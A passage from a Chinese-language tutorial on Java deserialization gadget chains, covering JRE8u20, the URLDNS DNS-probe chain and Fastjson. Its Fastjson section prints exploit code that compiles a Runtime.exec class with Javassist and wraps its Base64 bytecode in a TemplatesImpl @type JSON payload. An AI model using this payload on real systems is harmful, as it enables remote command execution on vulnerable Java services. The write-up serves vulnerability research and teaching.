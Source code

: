 ```java
    return linkedHashSet;
}
```

使用了ysoserial的反射工具类，代码看起来简洁一点。

#### JRE8u20

[深度 - Java 反序列化 Payload 之 JRE8u20](https://xz.aliyun.com/t/1620)

#### URLDNS

这条利用链也是在jdk中，不需要其他第三方库。这条链的作用是发送dns请求，在验证反序列化漏洞是否存在时非常方便，同时调用也比较简单，这里简单说一下。需要注意的是Java默认有TTL缓存，DNS解析会进行缓存（默认10s），所以可能会出现第一次收到DNS的log，后面可能收不到的情况。

首先在`jdk1.7.0_21.jdk/Contents/Home/src.zip!/java/net/URLStreamHandler.java`中的hashCode方法中，会调用`getHostAddress`方法尝试获取url对应的ip，这里就会发送dns请求，可以使用dns平台接收。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190929182056.png)

`jdk1.7.0_21.jdk/Contents/Home/src.zip!/java/net/URL.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190929183204.png)

这里需要保证`hashCode`为-1。

`jdk1.7.0_21.jdk/Contents/Home/src.zip!/java/util/HashMap.java`

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190929183401.png)

hashmap会用Entry的key来计算hash。

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190929184201.png)

![](https://mdpicture.oss-cn-beijing.aliyuncs.com/20190929184328.png)

最后在Hashmap的readObjet方法中触发。

### Fastjson

由于是fastjson是一个json的解析库，所以触发点在解析json的地方：

```java
JSON.parseObject(jsonString, Object.class, config, Feature.SupportNonPublicField);
JSON.parse(jsonString, Feature.SupportNonPublicField); //比较常见的写法
```

需要注意的是`Feature.SupportNonPublicField`这个参数，该字段在**fastjson 1.2.22**版本引入，设置之后才可以反序列化对象的私有属性。

先来看exp：

```java
public static String getJsonString(String command) throws CannotCompileException, NotFoundException, IOException {
  	//构造恶意类
    ClassPool classPool = ClassPool.getDefault();
    classPool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
    CtClass ctClass = classPool.getCtClass(FastJson.class.getName());
    String cmd = "java.lang.Runtime.getRuntime().exec(\"" +
      command.replaceAll("\\\\","\\\\\\\\").replaceAll("\"", "\\\"") +
      "\");";
    ctClass.makeClassInitializer().insertBefore(cmd);
    ctClass.setName("EvilClass" + System.nanoTime());
    ctClass.setSuperclass(classPool.get(AbstractTranslet.class.getName()));
    String evilCode = Base64.encodeBase64String(ctClass.toBytecode()); //获取字节码

    final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
    return "{\"@type\":\"" + NASTY_CLASS +
      "\",\"_bytecodes\":[\""+evilCode+"\"]," + //这里注意_bytecodes是一个数组
```